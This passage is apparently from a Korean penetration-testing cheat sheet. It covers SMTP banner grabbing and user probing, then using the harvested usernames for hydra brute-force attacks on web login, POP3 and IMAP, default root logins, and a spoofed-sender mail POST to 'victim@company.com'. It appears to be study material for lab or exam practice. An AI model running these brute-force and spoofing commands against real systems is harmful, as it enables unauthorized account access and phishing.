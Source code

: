 ### 🔍 정보 부족시

```bash
# 상세한 배너 정보 수집
nc -nv {IP} 25 | head -5
telnet {IP} 25

# 다양한 HELO/EHLO로 정보 수집
telnet {IP} 25
HELO localhost
QUIT

telnet {IP} 25
EHLO localhost
QUIT

# 서버 응답 분석
echo -e "HELO test\nQUIT" | nc {IP} 25
echo -e "EHLO test\nQUIT" | nc {IP} 25
```

---

## 🔗 다른 서비스와 연계

### 🌐 웹 서비스와 연계

```bash
# 웹메일 인터페이스 확인
curl http://{IP}/webmail
curl http://{IP}/mail
curl http://{IP}/roundcube
curl http://{IP}/squirrelmail

# SMTP로 수집한 사용자로 웹 로그인 시도
# users.txt에서 발견한 사용자들로:
hydra -L smtp_users.txt -P passwords.txt http-post-form://{IP}/login.php

# 웹을 통한 메일 전송
curl -X POST -d "to=victim@company.com&from=admin@company.com&subject=test&body=test" http://{IP}/sendmail.php
```

### 📬 POP3/IMAP과 연계

```bash
# SMTP에서 발견한 사용자로 POP3/IMAP 접근
telnet {IP} 110  # POP3
USER root
PASS password

telnet {IP} 143  # IMAP
LOGIN root password

# 브루트포스 연계
hydra -L smtp_users.txt -P passwords.txt pop3://{IP}
hydra -L smtp_users.txt -P passwords.txt imap://{IP}
```
